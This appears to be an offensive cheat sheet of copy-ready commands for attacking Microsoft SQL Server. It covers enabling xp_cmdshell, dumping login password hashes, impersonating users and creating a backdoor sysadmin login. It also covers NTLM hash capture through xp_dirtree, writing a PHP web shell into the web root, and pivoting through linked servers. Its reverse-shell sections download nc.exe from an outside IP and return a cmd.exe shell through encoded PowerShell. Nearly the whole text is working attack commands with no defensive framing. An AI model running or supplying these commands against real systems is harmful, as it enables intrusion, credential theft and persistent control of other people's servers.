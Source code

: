 # mssql-cmd

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/sql  #port/1433 #cat/ATTACK



## configure - turns on advanced options
```
sp_configure 'show advanced options', '1'
RECONFIGURE
```

## configure -  enable xp_cmdshell 
```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## configure -  enable Ole Automation Procedures
```
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
```

## enum - Get databases
master, tempdb, model, msdb arr default DB
```
SELECT name FROM master.dbo.sysdatabases
```

## enum - Get tables of a databases
```
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## enum - select records of a table
```
SELECT * FROM <databaseName>.dbo.<tableName>
```

## enum - Get users
```
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```

## enum - check admin rights
```
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## enum - identify users that we can impersonate
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

## enum - check readfile priv (OPENROWSET)
```
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```

## privesc - impersonate user
```
EXECUTE AS LOGIN = '<user|sa>'
```

## persist - Create user with sysadmin privs
```
CREATE LOGIN jubeaz WITH PASSWORD = '<password|Jube@z123!'
sp_addsrvrolemember 'jubeaz', 'sysadmin'
```

## execute command
```
EXEC master..xp_cmdshell '<cmd|whoami /all>'
```
## Hash gathering - 
sudo impacket-smbserver share ./ -smb2support
sudo responder -I tun0
```
xp_dirtree '\\<ip>\any\thing'
exec master.dbo.xp_dirtree '\\<ip>\any\thing'
EXEC master..xp_subdirs '\\<ip>\anything\'
EXEC master..xp_fileexist '\\<ip>\anything\'
```

## reverseshell
python -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```
exec xp_cmdshell 'powershell -exec bypass -enc <b64_payload>
```


## extract hash for cracking
```
SELECT @@SERVERNAME + N'_' + [name] + N':' + CONVERT(NVARCHAR(256), password_hash, 1) FROM sys.sql_logins WHERE [name] NOT LIKE N'##%';
```

## read file (OPENROWSET)
```
SELECT * FROM OPENROWSET(BULK N'<path|C:/Windows/System32/drivers/etc/hosts>', SINGLE_CLOB) AS Contents
```

## write file
enable Ole Automation Procedures
```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

## Trustable Links - Get Linked Servers (exec)
```
EXEC sp_linkedservers
```

## Trustable Links - Get Linked Servers (select)
```
select * from master..sysservers
```

## Trustable Links - Execute queries
```
select * from openquery("<srvname>", '<query>')
```

## Trustable Links - Get databases
master, tempdb, model, msdb arr default DB
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT name FROM master.dbo.sysdatabases')
SELECT name FROM master.dbo.sysdatabases
```

## Trustable Links - Get tables of a databases
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES')
```

## Trustable Links - select records of a table
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT * FROM <databaseName>.dbo.<tableName>')
```

## Trustable Links - create remote admin
```
EXECUTE('EXECUTE(''CREATE LOGIN <login|jubeaz> WITH PASSWORD = ''''<password|Jub@z123!>'''' '') AT "<remote_srvname>"') AT "<local_srvname>"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''<login|jubeaz>'''' , ''''sysadmin'''' '') AT "<remote_srvname>"') AT "<local_srvname>"
```


## Trustable Links - turns on advanced options
```
select 1 from openquery("<remote_srvname>", 'select 1; exec sp_configure ''show advanced options'', 1; reconfigure')
EXECUTE('sp_configure ''show advanced options'',1;reconfigure;') AT "<remote_srvname>"
```

## Trustable Links -  enable xp_cmdshell 
```
select 1 from openquery("<remote_srvname>", 'select 1; exec sp_configure ''xp_cmdshell'', 1; reconfigure')
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "<remote_srvname>"
```


## Trustable Links - test command exec 
if return 1 its good
```
select 1 from openquery("<remote_srvname>", 'select 1; exec master..xp_cmdshell ''dir c:''')
```


## Trustable Links - reverseshell
python -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```
select 1 from openquery("<remote_srvname>", 'select 1; exec master..xp_cmdshell ''powershell -exec bypass -enc <b64_payload>''')
```